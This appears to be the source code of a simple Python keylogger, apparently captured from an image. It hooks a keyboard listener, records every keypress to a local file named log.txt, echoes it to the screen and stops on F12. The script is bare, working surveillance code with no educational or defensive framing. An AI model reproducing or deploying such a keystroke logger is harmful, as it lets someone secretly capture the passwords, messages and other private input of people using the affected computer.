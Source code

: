 def anonymous(key):
    key = str(key)
    key = key.replace("'","")
    if key ==  "Key.f12":
        raise SystemExit(0)
    if key == "Key.ctrl_l":
        key = ""
    if key == "Key.enter":
        key = "\n"
    if key == "Key.alt_l":
        key = "\n"
    if key == "Key.tab":
        key = "\n"
        
    with open("log.txt", "a") as file:
        file.write(key)
    print(key)

with Listener(on_press=anonymous) as listener:
    listener.join()
